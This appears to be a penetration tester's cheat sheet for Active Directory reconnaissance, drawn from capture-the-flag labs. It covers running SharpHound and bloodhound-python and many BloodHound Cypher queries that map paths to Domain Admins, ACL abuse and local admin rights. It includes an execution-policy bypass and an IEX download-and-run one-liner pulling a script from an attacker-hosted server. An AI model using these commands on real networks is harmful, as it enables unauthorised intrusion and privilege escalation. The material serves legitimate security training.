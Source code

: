 
# Local

## Sharphound

/usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1  
  
### local  
cd /usr/share/metasploit-framework/data/post/powershell/  
python -m http.server 80  
  
### target  
powershell -ep bypass  
IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.180/SharpHound.ps1')  
  
#### Help Page  
Get-Help Invoke-BloodHound  
  
#### Get all info  
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\celia.almeda\Documents\ -OutputPrefix "audit"  
  

# Remote
## Bloodhound-python
```
bloodhound-python -c all -u james -p 'J@m3s_P@ssW0rd!'  -ns 10.10.10.52 -d htb.local --zip

bloodhound-python -c <collection method> -u <username> -p <password>  -ns <dns-server> -d <domain> --zip
```


# Bloodhound
  
## local  
sudo neo4j start  
bloodhound  
  
## Raw Queries
### Get all Computers  
```
MATCH (m:Computer) RETURN m
```
  
### Get all Users  
```
MATCH (m:User) RETURN m  
```  
### Find sessions  
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p  
``` 
  
### Shortest path from to high value  
```
MATCH p=shortestPath((u {highvalue: false})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@INFILTRATOR.HTB'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p  
```  
## Other queries  

### Count the distinct users logon sessions on a domain :  
```
MATCH (u1:user)  
WITH count(u1) as totalUsers  
MATCH (c:Computer)-[r:HasSession]->(u2:User)  
RETURN COUNT(DISTINCT(u2))  
```
### Get All computers with their users logon sessions :  
```
MATCH c=(C:Computer)-[r2:HasSession*1]-(U:User)   
WHERE U.name =~ ".*" return c  
```  
### Get computers having a session from usernames like -Y´ADM.*¡ (matching specific OS) :  
```
MATCH p=((S:Computer)-[r:HasSession*1]->(T:User))  
WHERE T.name =~ "ADM.*"  
AND S.operatingsystem =~ ".*XP.*"  
RETURN p  
```  
### Find all Domain Admins :  
```
MATCH (n:Group) WHERE n.objectid =~ "(?i)S-1-5-21-.*-512" WITH n MATCH p=(n)<-[r:MemberOf*1..]-(m) RETURN n,r,m
```

### For all Well-known security identifiers: 
https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows.  
### Find all Domain Admins (nested SID S-1-5-21-.*-512) having a session opened on a domain computer :  

```
MATCH (m:User)-[r:MemberOf*1..]->(n:Group) WHERE n.objectid =~ "(?i)S-1-5-.*-512" WITH m MATCH q=((m)<-[:HasSession]-(o:Computer)) RETURN q  
```
### Show all high value target principals :  
```
MATCH (m {highvalue:true}) RETURN m  
```
### List of unique users with a path to a ´highvalue¡ targets :  
```
MATCH (u:User) MATCH (g {highvalue:true}) MATCH p = shortestPath((u:User)-[r:AddMember|AdminTo|AllExtendedRights|AllowedToDelegate|CanRDP|Contains|ExecuteDCOM|ForceChangePassword|GenericAll|GenericWrite|GpLink|HasSession|MemberOf|Owns|ReadLAPSPassword|TrustedBy|WriteDacl|WriteOwner|GetChanges|GetChangesAll*1..]->(g)) RETURN DISTINCT(u.name) AS USER, u.enabled as ENABLED,count(p) as PATHS order by u.name  
```
### Shortest paths from Domain Users to ´highvalue¡ targets :  
  ```
MATCH p=shortestPath((g:Group {name:"DOMAIN USERS@PHACKT.LOCAL"})-[*1..]->(n {highvalue:true})) WHERE g.objectid ENDS WITH '-513' AND g<>n return p  
  ```
### Find user with a username like ´ADM.*¡ who logged on a computer which has a owned local admin :  
  ```
MATCH c=(U:User {owned:true})-[r:AdminTo*1]-(C:Computer)-[r2:HasSession*1]-(P:User) WHERE P.name =~ "A_.*" return c  
  ```
### Find all edges that a ´specific user¡ has against all the nodes (HasSession is not calculated, as it is an edge that comes from computer to user, not from user to computer) :  
 ``` 
MATCH (n:User) WHERE n.name =~ 'HELPDESK@DOMAIN.GR' MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
 ``` 
### Find all the edges that any UNPRIVILEGED user (based on the admincount:False) has against all the nodes :      

```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against other users :  

```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against computers :  
  
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p  
```

### Find if unprivileged users have rights to add members into groups :   
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p  
```
  
### Find only the AdminTo privileges (edges) of the domain users against the domain computers :         
```
MATCH p1=shortestPath(((u1:User)-[r1:MemberOf*1..]->(g1:Group))) MATCH p2=(u1)-[:AdminTo*1..]->(c:Computer) RETURN p2  
```
### Find which groups canRDP to computers :  
```
MATCH (n:Group) MATCH (m:Computer) MATCH p=allShortestPaths((n)-[r:CanRDP*1..]->(m)) RETURN p  
 ``` 
 
The canRDP edge runs from a user or a group to a computer and incates that the principals are part of the Remote Desktop Users local group on the target system.  

### Find what groups have local admin rights :             
```
MATCH p=(m:Group)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
```  
### Find what users have local admin rights :                
``` 
MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
``` 


### Mark a user as owned :  
```
MATCH (n:User) WHERE n.name STARTS WITH toUpper('brobin') SET n.owned=true RETURN n  
```
### Displays all GPOs :  
```
Match (n: GPO) return n  
```
### Displays all GPOs containing a ´keyword¡ in their name  
```
Match (n: GPO) WHERE n.name CONTAINS "SERVER" return n  
```
### Find if a domain user has some interesting rights on a GPO :  

```
MATCH p = (u: User) - [r: AllExtendedRights | GenericAll | GenericWrite | Owns | WriteDacl | WriteOwner | GpLink * 1 ..] -> (g: GPO) RETURN p LIMIT 25
```